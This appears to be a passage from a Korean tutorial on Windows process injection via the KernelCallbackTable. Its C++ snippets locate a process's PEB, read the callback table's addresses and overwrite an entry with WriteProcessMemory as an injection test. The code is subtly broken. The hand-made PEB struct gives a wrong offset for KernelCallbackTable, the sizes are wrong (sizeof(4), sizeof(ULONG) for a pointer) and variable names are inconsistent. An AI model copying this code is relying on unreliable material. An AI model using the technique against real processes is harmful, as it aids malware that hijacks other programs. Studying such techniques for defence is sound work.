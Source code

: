 Native API를 사용하므로 다음과 같이 사용할 함수에 대한 정의를 해주고 호출한다. 이 때, PBI 변수는 윈도우에서 제공하는 `ROCESS_BASIC_INFORMATION 구조체`로 `PebBaseAddress`를 멤버 변수로 지니고 있다.

```c++
typedef ULONG(NTAPI* lpfNtQueryInformationProcess)(HANDLE, PROCESSINFOCLASS, PVOID, ULONG, PULONG);

/* ... 생략 ... */
NtQueryInformationProcess = (lpfNtQueryInformationProcess)GetProcAddress(hModule, "NtQueryInformationProcess");
NtQueryInformationProcess(hProcess, ProcessBasicInformation, &pbi, sizeof(pbi), NULL);
```

`winternl.h`에 공식적으로 제공되는 PEB 구조체의 경우 KernelCallbackTable를 멤버 변수로 지니고 있지 않기 때문에 필요한 구조체 정보를 직접 작성하여 Offset으로 해당 값을 읽어와 저장한다. (VS에서 자료형을 [Ctrl]를 누르고 선택하면 정의를 확인할 수 있다.)

```c++
struct T0RCHWO0D_PEB {
    UCHAR BeingDebugged;
    PVOID KernelCallbackTable;
} originPeb;

/* ... 생략 ... */
ReadProcessMemory(hProcess, pbi.PebBaseAddress, &peb, sizeof(peb), &rd);
```

이제 KernelCallbackTable에 존재하는 함수들의 시작 주소를 가져온다. 여기서 필요한 것은 fnCOPYDATA()이므로 많은 주소를 가져올 필요는 없다.

```c++
/* ... 생략 ... */
pKernelCallbackFuncAddr = originPeb.KernelCallbackTable;
index = 0;

while (index < 1) {
 if (ReadProcessMemory(hProcess, (BYTE*)originPeb.KernelCallbackTable + (sizeof(PVOID) * index), &pKernelCallbackFuncAddr, sizeof(ULONG), &rd)) {
        // This code for x86
        // if (pKernelCallbackTable == 0) new exception("Read KernelCallbackFuncAddr()");
        printf("\t\t[*] KernelCallbackTable[%03d] :0x%p\n", index, pKernelCallbackFuncAddr);
        pKernelCallbackTable[index] = pKernelCallbackFuncAddr;
        index++;
    }
    else throw new exception("ReadProcessMemory()");
}

```

코드 삽입 테스트를 위한 코드를 작성한다.

```c++
if (WriteProcessMemory(hProcess, *(&pKernelCallbackTable), (LPVOID)"AAAA", sizeof(4), NULL)) {
    printf("\t\t\t[*] Modifed The KernelCallBack Function", index, pKernelCallbackTable);
} else {
    printf("\t\t\t[!] Error Code : %d\n", GetLastError());
    exit(-1);
}
```
